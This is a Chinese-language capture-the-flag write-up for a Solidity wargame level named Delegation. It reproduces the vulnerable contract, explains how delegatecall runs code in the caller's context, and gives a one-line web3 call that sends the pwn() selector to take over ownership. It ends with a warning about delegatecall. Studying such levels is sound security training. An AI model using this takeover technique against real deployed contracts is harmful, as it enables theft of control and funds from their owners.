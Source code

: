 # 6.Delegation

## 题目描述

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645096948628-3f587ca7-be42-4caa-a2b8-c2f3b9c9edf8.png)

## 解题过程

题目源码

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

首先先理解 call函数 与 delegatecall函数 的区别

```javascript
call函数 外部调用时，上下文是外部合约
delegatecall函数 外部调用时，上下文是调用合约
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645191649528-10eadf0b-9033-4824-8262-25027eaaeaf8.png)

可以简单理解为 合约A通过 Delegatecall 调用合约B的方法时，相当于将该方法复制到 合约A 运行

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645191784663-2fc13a8c-61e2-4d16-a8d5-4af0272b3495.png)

```javascript
data 头4个 byte 是被调用方法的签名哈希，bytes4(keccak256("func"))
实际是向合约账户地址发送了 msg.data[0:4] == 函数签名哈希 的一笔交易
```

所以我们只需要像合约发送data, 来调用 pwn() 方法

```javascript
await contract.sendTransaction({data: web3.utils.sha3("pwn()").slice(0,10)});
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645309938555-60b8e256-8113-457e-888d-1e794c884d30.png)

根据交易hash 也可以看到调用方法细节

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1645309966080-69137ec6-0fc2-4b07-ac39-8609bdbcc80d.png)

```javascript
使用delegatecall 是很危险的, 而且历史上已经多次被用于进行 attack vector. 使用它, 你对合约相当于在说 "看这里, -其他合约- 或是 -其它库-, 来对我的状态为所欲为吧". 代理对你合约的状态有完全的控制权. delegatecall 函数是一个很有用的功能, 但是也很危险, 所以使用的时候需要非常小心.
```